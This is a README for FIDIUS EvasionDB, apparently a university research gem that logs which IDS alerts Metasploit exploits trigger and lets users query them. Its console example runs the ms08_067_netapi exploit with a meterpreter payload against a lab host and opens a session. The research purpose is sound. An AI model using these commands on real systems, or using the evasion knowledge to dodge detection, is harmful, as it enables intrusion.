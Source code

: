 # FIDIUS EvasionDB

The FIDIUS EvasionDB Gem provides a database which contains knowledge about metasploit exploits
and their corresponding alerts/events produced by intrusion detection systems (IDS). It includes a
Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

## Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit [fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -c

Follow the instructions. 

This Gem currently uses 2 databases:

 * `ids_db`: A Prelude Manager database for fetching IDMEF events.
 * `evasion_db`: Knowledge database for information about exploits and their IDMEF events.

Please note: The Evasion-DB Gem has only been tested with Linux systems and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with PostgreSQL and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or
from external scripts by requiring the Gem. The first method (use in `msfconsole`) is intended to
generate knowledge about exploits. You can execute any module within metasploit and log
corresponding IDMEF events. 

Please note: Currently it is only possible to fetch IDMEF events from an existing and configured
Prelude Manager database. At the beginning of a module execution, the timestamp and number of total
events in prelude are measured. After the module is finished newly generated events are identified
via timestamp and the attackers source IP address.

### In MSF console

Example for monitoring an exploit. After loading the plugin all modules which are executed by
metasploit will be monitored. All payload which is send to the target will be stored in the
Knowledge database. After executing of the module finished generated IDMEF events will be fetched
from the Prelude database and stored to the Knowledge database, too.
  
    $ msf > load evasiondb
    $ [*] EvasionDB plugin loaded.
    $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
    $ msf > use exploit/windows/smb/ms08_067_netapi
    $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
    $ PAYLOAD => windows/meterpreter/bind_tcp
    $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
    $ RHOST => 10.20.20.1
    $ msf exploit(ms08_067_netapi) > exploit
    $ [*] Started bind handler
    $ [*] Automatically detecting the target...
    $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
    $ [*] Selected Target: Windows XP SP2 German (NX)
    $ [*] Attempting to trigger the vulnerability...
    $ [*] Sending stage (749056 bytes) to 10.20.20.1
    $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
    $ meterpreter > exit
    $ [*] Meterpreter session 1 closed.  Reason: User exit
    $ msf exploit(ms08_067_netapi) > show_events
    $ ------------------------------------------------------------
    $ exploit/windows/smb/ms08_067_netapi with 47 options
    $ ------------------------------------------------------------
    $ 11 idmef-events fetched
    $ ------------------------------------------------------------
    $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
    $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
    $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
    $ msf exploit(ms08_067_netapi) > 

### From external script or irb

From external scripts or inside irb, there are only queries to the Evasion DB possible.
The usage is quite simple.

Just `require 'fidius-evasion` in your script
and call `FIDIUS::EvasionDB.config 'path/to/your/database.yml'`.
It will connect to the database and give you the possibility to use one of the query methods below. 

### Queries

Sample how the knowledge in EvasionDB can be queried:

    ruby-1.9.1-p378 > require 'fidius-evasiondb'
    => true 
    ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
    ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
    ruby-1.9.1-p378 > events.size
    => 11 
    ruby-1.9.1-p378 > events.first.severity
    => "medium" 
    ruby-1.9.1-p378 > events.first.text
    => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit

    ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
    => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents

    ruby-1.9.1-p378 > event = m.idmef_events.first
    => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets

    ruby-1.9.1-p378 > m.packets.first
    => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet

    ruby-1.9.1-p378 > m.packets.first.payload
    => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit

    ruby-1.9.1-p378 > m.attack_options.first.option_key
    => "EXITFUNC" 
    ruby-1.9.1-p378 > m.attack_options.first.option_value
    => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius+evasiondb@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm+evasiondb@tzi.de>
 * Jens Färber <jfaerber+evasiondb@tzi.de>

If you have any questions, remarks, suggestion, improvements, etc. feel free to drop a line at the 
addresses given above. You might also join `#fidius` on Freenode or use the contact form on our
[website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
